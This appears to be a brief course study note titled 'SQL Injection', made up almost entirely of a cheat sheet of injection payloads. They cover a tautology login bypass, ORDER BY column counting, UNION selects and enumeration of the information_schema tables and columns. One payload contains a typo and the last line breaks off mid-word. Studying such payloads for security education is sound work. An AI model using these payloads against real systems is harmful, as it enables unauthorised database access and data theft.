 # SC Topic 4 - SQL Injection

###### tags: #SC 

## Table of Contents
```toc
```
## SQL Injection Cheat Sheet
- Basic SQL Injection
```
1' or 1=1; -- -  
```
- ORDER BY Attack
```
1' order by 1; -- -
```
- UNION Attack
```
1' union select null; -- -
```
- `information_schema` Attacks
```
1' union select 1,2,table_schema from information_schema.tables;-- - 
1' union selectt 1,table_name, table_schema from information_schema.tables; -- - 
1' union select 1,column_name,table_schema from information_schema.colu
```